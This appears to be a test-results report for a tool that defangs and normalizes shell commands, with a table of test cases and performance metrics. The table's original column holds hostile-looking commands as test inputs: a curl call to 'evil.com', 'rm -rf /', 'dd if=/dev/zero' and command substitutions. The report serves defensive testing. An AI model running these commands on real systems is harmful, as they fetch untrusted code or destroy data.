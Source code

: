 ```python
```

### Vocabulary Consistency Test Results (COMPLETED)

**Test Date**: 2025-11-01
**Test Suite**: `tests/unit/test_vocabulary_consistency.py`
**Total Test Cases**: 16 tests (9 required + 7 additional)
**Pass Rate**: 16/16 (100%)

#### Test Results Summary

| Test Case | Original | Defanged | Status |
|-----------|----------|----------|--------|
| URL scheme + command | `curl http://evil.com` | `cxrl hxxp://evil.com` | ✅ PASS |
| Command name | `bash script.sh` | `bxsh script.sh` | ✅ PASS |
| Dangerous command | `rm -rf /` | `rx -rf /` | ✅ PASS |
| Data destruction | `dd if=/dev/zero` | `dx if=/dev/zero` | ✅ PASS |
| AND operator | `cmd1 && cmd2` | `cmd1 [AND] cmd2` | ✅ PASS |
| PIPE operator | `cmd1 \| cmd2` | `cmd1 [PIPE] cmd2` | ✅ PASS |
| Semicolon operator | `cmd1; cmd2` | `cmd1[SC] cmd2` | ✅ PASS |
| Subshell nested URL | `$(curl http://evil.com)` | `[SUBSHELL] cxrl hxxp://evil.com [SUBSHELL]` | ✅ PASS |
| Backtick substitution | ``echo `whoami` `` | `echo [BACKTICK] whoami [BACKTICK]` | ✅ PASS |
| Normalization idempotency | All test cases | normalize(normalize(x)) == normalize(x) | ✅ PASS |
| Complex chained defanging | Multi-pattern command chains | Partial/mixed defanging | ✅ PASS |
| Case insensitive defanging | `CXRL HXXP://EVIL.COM` | Case variations normalize identically | ✅ PASS |
| Whitespace variations | Extra spaces preserved correctly | Semantic equivalence maintained | ✅ PASS |

#### Performance Metrics

**Test Configuration**:
- Total Commands: 900 (18 commands × 50 iterations)
- Warm-up Runs: 10 commands
- Python Version: 3.13.5
- Platform: Darwin (macOS)

**Results**:
- **Total normalization time**: 10.88ms (900 commands)
- **Per-command time**: 0.0121ms
- **Throughput**: 82,701 commands/sec
- **Performance threshold**: < 1.0ms per command (✅ PASS)

#### Additional Validation Tests

1. **Idempotency Test**: Verified that `normalize(normalize(x)) == normalize(x)` for all test cases
2. **Complex Chaining Test**: Validated multi-pattern commands maintain semantic equivalence
3. **Partial Defanging Test**: Mixed defanged/non-defanged elements normalize correctly
4. **Case Sensitivity Test**: Uppercase, lowercase, and mixed-case defanging patterns produce identical output
5. **Whitespace Test**: Extra whitespace does not affect semantic equivalence
